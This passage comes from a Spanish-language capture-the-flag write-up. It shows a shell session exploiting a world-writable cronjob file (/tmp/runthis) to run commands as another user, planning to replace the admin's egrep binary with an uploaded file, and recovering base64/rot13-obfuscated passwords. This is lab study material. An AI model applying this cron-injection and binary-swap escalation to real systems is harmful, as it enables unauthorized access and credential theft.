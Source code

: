 ```js
bash-4.1$ cat /var/www/notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```

Pero bueno... La primera nota nos da más información y dice que hay un cronjob corriendo cada minuto bajo el usuario `eezeepz`. Este cronjob: ejecuta contenido del archivo `/tmp/runthis`; guarda el contenido en `/tmp/cronresult`.

De hecho podemos intentar ejecutar un comando simple pero útil para validar el funcionamiento del cronjob.

```python
bash-4.1$ /home/admin/echo "mensaje desde el cron"
bash: /home/admin/echo: Permission denied
bash-4.1$ echo "/home/admin/echo travesura en el cron | ls /home/admin" > /tmp/runthis
bash-4.1$ sleep 60
bash-4.1$ cat /tmp/cronresult
executing: /home/admin/echo travesura en el cron | ls /home/admin
cat
chmod
cronjob.py
cryptedpass.txt
cryptpass.py
df
echo
egrep
grep
ps
whoisyourgodnow.txt
```

echo "" > /tmp/runthis

echo "/home/admin/mv /home/admin/egrep /home/admin/igrep && cp /tmp/my_img /home/admin/egrep " > /tmp/runthis



Nos metemos a la ruta `/tmp` y ejecutamos comandos,  los vemos en el `cronresult`, por ejemplo viendo los archivos `.txt`, obtuvimos estas contraseñas ofuscadas: `=RFn0AKnlMHMPIzpyuTI0ITG` y `mVGZ3O3omkJLmy2pcuTq`.

Esta es la parte de `cronresult` donde obtenemos el código que ofusca contraseñas y el contenido de `/usr/bin` (este ultimo lo recorte por comandos que se pudieran aprovechar): 
```
executing: /home/admin/cat cryptpass.py && /home/admin/cat whoisyourgodnow.txt && /home/admin/cat cryptedpass.txt && ls /usr/bin 
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
[...]
mysql
[...]
passwd
[...]
perl
[...]
php
[...]
```